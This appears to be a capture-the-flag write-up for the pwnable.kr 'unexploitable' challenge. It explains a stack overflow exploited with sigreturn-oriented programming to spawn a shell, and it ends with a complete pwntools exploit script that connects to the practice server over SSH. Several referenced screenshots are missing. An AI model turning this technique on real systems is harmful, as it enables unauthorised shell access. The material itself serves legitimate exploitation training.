




# unexploitable

First lets see what we are working on

```c
#include <stdio.h>
void main(){
        // no brute forcing
        sleep(3);
        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
```

Seems like a simple challenge, We have a buffer of 4 integers, but we can reads 1295 bytes into it.
So lets overflow the buffer and override the return address!
but, what should we put in there?



Problems:
- ASLR enabled which means we cannot jump to our own buffer cause its address is unkown
- NX is enabled, which means even if we found a way to leak an address in the stack, we cant put shellcode and jump

So in this case we have to find a gadget!
I first thought maybe we can leak libc and jump to system, but after running `ROPGadget` I quickly saw:


Its a really good gadget for us, but we still cant control any register,
In order to run a shell, we need to control `rax` and  `rdi`

First i tried to figure out how can i get arbitrary syscall, which means i need to control `rax`
this part wasnt that hard, lets figure how to override the return address:




So we need to put 24 bytes, and the next 8 bytes will be the ret.
Now we can do something like that:

`24 bytes -> Address to main -> Address to syscall gadget`

Why are we umping to main again?
Since `rax` is the return value in 64bit calling convention,
We can re-run main, but now main return address is the syscall gadget,
in main we are calling for read, so the amount of bytes we will put in this read, will be `rax`

Now we can call any syscall we want, but we have control only over the stack and not the registers..
Sounds like a perfect time to call `Sigreturn` !

So our first payload needs to be:
`24 bytes -> Address to main -> Address to syscall gadget -> sigreturn frame`

And since we are jumping to main again, the second payload is:
`15*'a'`

The sigreturn frame looks like:
```python
frame.rax = 59
frame.rdi = ??
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget
```

We are close, we just need to figure out how can we find and address which points to `/bin/sh`
I ran: 

and then:

And i found this string in our binary:


So we can just create a symlink from `/bin/sh` to `8` and then we can put in `rdi` the address  `0x600036` 

and we won!

```python
#!/usr/bin/python3

from pwn import *
import time

context.arch = 'amd64'
binary = ELF("./unexploitable")

syscall_gadget  = 0x400560
read_addr = binary.sym['main']
size = 24

frame = SigreturnFrame(kernel='amd64')

  
frame.rax = 59
frame.rdi = 0x600036
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget

s = ssh(host="pwnable.kr", port=2222, user='unexploitable', password='guest')
context.ssh_session = s
s.set_working_directory()

unexploitable_link = SSHPath('unexploitable')
unexploitable_link.symlink_to('/home/unexploitable/unexploitable')

sh = SSHPath('8')
sh.symlink_to('/bin/sh')

p = s.process(["./unexploitable"])

payload = b'a'*size + p64(read_addr) + p64(syscall_gadget) + bytes(frame)
p.sendline(payload)
time.sleep(5)

p.sendline(b'a'*14)
p.interactive()
```

